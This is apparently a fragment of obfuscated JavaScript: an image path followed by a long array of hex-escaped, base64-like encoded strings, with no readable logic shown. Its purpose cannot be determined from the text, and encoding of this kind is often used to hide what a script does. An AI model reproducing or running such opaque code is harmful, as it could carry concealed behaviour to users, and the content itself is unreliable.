 '\x77\x34\x7a\x43\x67\x30\x66\x43\x68\x38\x4b\x4e\x77\x71\x63\x3d', '\x77\x35\x41\x75\x77\x70\x63\x3d', '\x77\x72\x44\x43\x6d\x7a\x6f\x3d', '\x77\x36\x76\x44\x68\x63\x4f\x35\x43\x4d\x4b\x42\x77\x6f\x4d\x3d', '\x77\x72\x4c\x43\x73\x52\x55\x3d', '\x77\x72\x48\x44\x67\x43\x76\x44\x6f\x4d\x4f\x78\x57\x4d\x4b\x42\x63\x6b\x4c\x43\x6c\x77\x3d\x3d', '\x77\x36\x6c\x50\x58\x53\x37\x43\x6a\x38\x4b\x65', '\x77\x37\x64\x76\x56\x77\x3d\x3d', '\x77\x36\x6c\x50\x58\x53\x37\x43\x6a\x63\x4b\x46\x49\x48\x38\x6e\x53\x51\x3d\x3d', '\x77\x37\x50\x44\x74\x4d\x4f\x6c\x77\x71\x74\x41\x4b\x77\x3d\x3d', '\x77\x70\x73\x65\x77\x36\x49\x3d', '\x77\x34\x45\x6f\x77\x71\x59\x3d', '\x57\x38\x4b\x67\x57\x41\x3d\x3d', '\x53\x38\x4f\x57\x77\x36\x77\x3d', '\x77\x35\x67\x77\x62\x67\x3d\x3d', '\x45\x4d\x4b\x52\x57\x56\x30\x55\x4d\x31\x34\x56\x77\x70\x73\x74', '\x41\x38\x4f\x31\x77\x70\x34\x3d', '\x66\x38\x4f\x6a\x77\x6f\x59\x6f\x77\x70\x39\x6f', '\x77\x34\x37\x43\x6d\x57\x6f\x3d', '\x77\x37\x66\x43\x72\x41\x5a\x4e\x77\x37\x44\x43\x69\x41\x3d\x3d', '\x63\x48\x7a\x43\x6b\x77\x3d\x3d', '\x77\x36\x67\x58\x77\x71\x73\x3d', '\x59\x6d\x6a\x43\x69\x77\x3d\x3d', '\x4a\x63\x4f\x62\x77\x71\x6c\x38\x77\x6f\x76\x44\x6d\x51\x3d\x3d', '\x77\x37\x70\x33\x57\x41\x3d\x3d', '\x77\x34\x4d\x4b\x53\x51\x3d\x3d', '\x77\x36\x45\x32\x59\x6b\x70\x37\x4c\x41\x3d\x3d', '\x77\x34\x7a\x44\x69\x6a\x63\x3d', '\x64\x63\x4f\x59\x77\x35\x63\x3d', '\x77\x36\x48\x44\x76\x68\x33\x43\x72\x73\x4b\x4d\x77\x70\x72\x44\x71\x38\x4f\x38\x63\x67\x50\x44\x6b\x77\x3d\x3d', '\x77\x70\x33\x43\x6a\x6b\x30\x41\x64\x41\x3d\x3d', '\x53\x43\x66\x43\x76\x31\x77\x73\x55\x67\x3d\x3d', '\x77\x70\x6e\x43\x71\x73\x4f\x44\x77\x37\x76\x43\x6d\x67\x77\x4b\x77\x35\x48\x43\x71\x46\x34\x4d\x77\x70\x59\x75\x4b\x67\x3d\x3d', '\x58\x63\x4f\x35\x77\x70\x55\x37\x77\x71\x63\x3d', '\x77\x37\x7a\x44\x74\x4d\x4f\x63', '\x77\x34\x44\x44\x73\x6d\x6f\x4b\x59\x56\x41\x3d', '\x77\x37\x41\x51\x77\x70\x34\x66\x65\x73\x4b\x58', '\x77\x37\x6e\x43\x6a\x6b\x30\x41\x77\x6f\x76\x43\x72\x69\x51\x3d', '\x77\x72\x54\x43\x67\x38\x4f\x53\x77\x72\x66\x43\x68\x78\x41\x3d', '\x77\x36\x66\x44\x6f\x73\x4b\x65', '\x77\x72\x6e\x44\x72\x45\x6e\x43\x74\x38\x4f\x48\x77\x71\x6e\x43\x76\x77\x3d\x3d', '\x77\x72\x35\x73\x77\x72\x66\x44\x6c\x4d\x4f\x54\x52\x67\x3d\x3d', '\x61\x4d\x4b\x59\x77\x71\x66\x44\x73\x41\x3d\x3d', '\x48\x47\x42\x41\x4c\x63\x4b\x55\x77\x37\x38\x3d', '\x46\x51\x37\x43\x71\x38\x4b\x69\x5a\x52\x6f\x3d', '\x77\x37\x76\x44\x74\x73\x4b\x2b\x77\x71\x37\x43\x6f\x51\x3d\x3d', '\x77\x35\x7a\x43\x6c\x48\x38\x3d', '\x77\x34\x55\x66\x77\x71\x67\x3d', '\x77\x35\x58\x43\x74\x68\x56\x65\x77\x34\x67\x3d', '\x59\x4d\x4b\x42\x53\x77\x3d\x3d', '\x77\x36\x54\x44\x6f\x38\x4b\x38\x77\x71\x44\x43\x6f\x63\x4b\x4a', '\x77\x36\x49\x47\x77\x71\x73\x3d', '\x77\x36\x51\x51\x58\x77\x3d\x3d', '\x77\x35\x63\x43\x77\x70\x73\x3d', '\x63\x54\x78\x46\x77\x36\x72\x44\x76\x44\x45\x66\x77\x72\x51\x33\x77\x72\x58\x44\x68\x73\x4f\x4d\x77\x37\x6a\x43\x6a\x7a\x2f\x44\x75\x51\x33\x43\x6b\x4d\x4b\x4c\x77\x70\x37\x44\x76\x4d\x4f\x5a\x58\x78\x62\x43\x6b\x38\x4b\x31\x5a\x73\x4b\x62\x42\x79\x6e\x44\x70\x79\x4c\x44\x74\x38\x4f\x48\x77\x34\x2f\x43\x6d\x48\x39\x71\x56\x6a\x49\x3d', '\x77\x37\x33\x43\x68\x7a\x51\x3d', '\x77\x34\x41\x33\x57\x38\x4f\x31\x77\x37\x78\x6c', '\x53\x38\x4b\x49\x77\x70\x67\x3d', '\x49\x63\x4f\x53\x77\x71\x59\x31\x47\x6c\x77\x3d', '\x77\x37\x72\x44\x6d\x38\x4f\x50', '\x61\x54\x66\x43\x75\x6d\x6f\x67\x55\x41\x3d\x3d', '\x77\x34\x72\x44\x70\x52\x6f\x3d', '\x47\x6d\x49\x48\x77\x36\x76\x43\x6b\x4d\x4f\x4d\x43\x73\x4b\x4c\x47\x78\x66\x44\x71\x6b\x46\x58\x77\x37\x7a\x43\x75\x6c\x4c\x44\x6e\x63\x4f\x2b\x45\x38\x4b\x4c\x52\x45\x44\x44\x74\x73\x4b\x38\x77\x34\x37\x44\x6d\x73\x4f\x55\x41\x31\x44\x43\x75\x4d\x4f\x6a\x43\x45\x6c\x4b\x77\x34\x4c\x43\x6d\x63\x4b\x5a\x77\x35\x73\x6f\x4b\x51\x3d\x3d', '\x77\x35\x4c\x44\x76\x43\x54\x44\x73\x41\x3d\x3d', '\x77\x34\x66\x44\x6c\x63\x4b\x68', '\x77\x35\x54\x44\x74\x69\x50\x44\x75\x63\x4b\x4c\x59\x67\x3d\x3d', '\x77\x71\x44\x44\x71\x73\x4b\x70', '\x77\x34\x2f\x44\x76\x32\x55\x66\x56\x6c\x66\x44\x73\x4d\x4f\x31\x4d\x30\x38\x3d', '\x41\x73\x4b\x68\x77\x70\x7a\x43\x6a\x73\x4f\x2b\x4c\x77\x6e\x44\x6d\x57\x78\x6e', '\x77\x72\x66\x43\x73\x51\x67\x3d', '\x63\x4d\x4b\x59\x77\x72\x72\x44\x6f\x38\x4b\x6d\x77\x34\x49\x3d', '\x77\x35\x76\x43\x68\x48\x58\x43\x67\x63\x4b\x2b\x77\x72\x72\x44\x74\x63\x4b\x4f', '\x77\x36\x63\x6c\x58\x67\x3d\x3d', '\x77\x36\x59\x75\x77\x36\x62\x44\x68\x41\x3d\x3d', '\x77\x34\x44\x44\x6b\x63\x4b\x32', '\x77\x36\x54\x43\x75\x56\x4d\x3d', '\x77\x35\x2f\x43\x6f\x6b\x6f\x3d', '\x77\x36\x49\x6e\x56\x41\x3d\x3d', '\x51\x38\x4b\x6f\x77\x6f\x45\x3d', '\x49\x73\x4b\x42\x77\x71\x73\x3d', '\x43\x63\x4f\x68\x77\x72\x34\x3d', '\x4f\x4d\x4b\x4a\x59\x67\x3d\x3d', '\x77\x37\x6a\x43\x6f\x51\x6c\x59\x77\x34\x58\x43\x6c\x41\x3d\x3d', '\x42\x52\x54\x43\x70\x73\x4b\x36\x65\x41\x30\x3d', '\x49\x43\x66\x44\x75\x4d\x4b\x6b\x77\x37\x74\x2f\x43\x63\x4b\x70', '\x77\x71\x38\x57\x77\x34\x45\x3d', '\x77\x37\x6a\x44\x67\x73\x4f\x6f', '\x43\x4d\x4f\x61\x77\x72\x6f\x3d', '\x77\x6f\x2f\x44\x6e\x58\x4c\x43\x70\x38\x4f\x4c\x77\x6f\x76\x43\x72\x38\x4f\x6a', '\x77\x70\x33\x44\x75\x7a\x6b\x3d', '\x77\x71\x6a\x44\x67\x38\x4f\x63\x77\x37\x39\x47\x56\x38\x4b\x70\x77\x37\x72\x44\x67\x63\x4b\x53', '\x77\x72\x7a\x43\x70\x7a\x63\x3d', '\x44\x73\x4b\x75\x4a\x38\x4f\x72\x77\x34\x6a\x43\x6c\x38\x4b\x75\x77\x71\x44\x44\x6f\x69\x54\x43\x68\x7a\x37\x44\x75\x38\x4b\x47\x49\x67\x3d\x3d', '\x77\x34\x41\x79\x56\x63\x4f\x76\x77\x37\x77\x3d', '\x65\x73\x4b\x44\x54\x42\x59\x59\x59\x41\x3d\x3d', '\x64\x73\x4b\x62\x62\x41\x3d\x3d', '\x56\x73\x4f\x54\x77\x36\x6b\x3d', '\x4a\x63\x4b\x66\x49\x67\x3d\x3d', '\x4a\x38\x4b\x41\x77\x36\x2f\x43\x73\x67\x58\x44\x71\x73\x4f\x6c\x77\x37\x49\x3d', '\x45\x67\x2f\x43\x69\x51\x3d\x3d', '\x63\x4d\x4f\x46\x77\x37\x48\x43\x74\x41\x58\x44\x71\x67\x3d\x3d', '\x77\x36\x6a\x44\x74\x6e\x41\x49', '\x55\x63\x4b\x33\x57\x4d\x4b\x74\x77\x6f\x50\x43\x68\x54\x34\x3d',